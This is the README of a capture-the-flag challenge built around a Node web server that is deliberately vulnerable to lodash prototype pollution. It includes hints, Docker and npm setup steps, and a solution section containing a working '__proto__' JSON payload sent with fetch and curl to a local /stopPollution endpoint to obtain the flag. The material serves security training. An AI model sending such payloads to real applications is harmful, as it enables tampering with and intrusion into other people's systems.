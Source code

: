 # Santa's Christmas Factory

A web server affected by JavaScript prototype pollution.

## Description

The poles are melting! Santa must stop the [pollution](https://github.com/lodash/lodash/commit/c84fe82760fb2d3e03a63379b297a1cc1a2fce12#diff-36b7ba0ba252cc39fa5921d9484b7674c8bc7af119636ba7f46194ee871047b6) of his christmas factories or Santa's factories will go down!

Possible hints:
- Exposed package.json with vulnerable lodash version: http://xmas.rip:??/package.json
- Pollution fix in lodash: https://github.com/lodash/lodash/commit/c84fe82760fb2d3e03a63379b297a1cc1a2fce12#diff-36b7ba0ba252cc39fa5921d9484b7674c8bc7af119636ba7f46194ee871047b6
- Prototype Pollution Talk: https://www.youtube.com/watch?v=LUsiFV3dsK8&ab_channel=NorthSec
- Description of the problem: https://snyk.io/vuln/SNYK-JS-LODASH-73638

## Build with Docker

```bash
docker-compose build
```

## Run with Docker

Add flag to the [``docker-compose.yml``](./docker-compose.yml).

```bash
docker-compose up --build
```

The web server is exposed on TCP port 26. You can change it in the ``docker-compose.yml`` file.

## Run without Docker

First install [node](https://nodejs.org/). Next you have to install the npm dependencies:

```bash
npm install
```

Start server:

```bash
node server.js answer flag
```

## Solution

In the browser:
```js
fetch('/stopPollution', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: '{"__proto__": {"success": true}}',
})
.then(response => response.text())
.then(data => {
    console.log(data);
});
```

Or with curl:
```bash
curl 'http://localhost:3000/stopPollution' \
  -H 'Content-Type: application/json' \
  --data-binary '{"__proto__": {"success": true}}'
```

The flag will be sent in the response.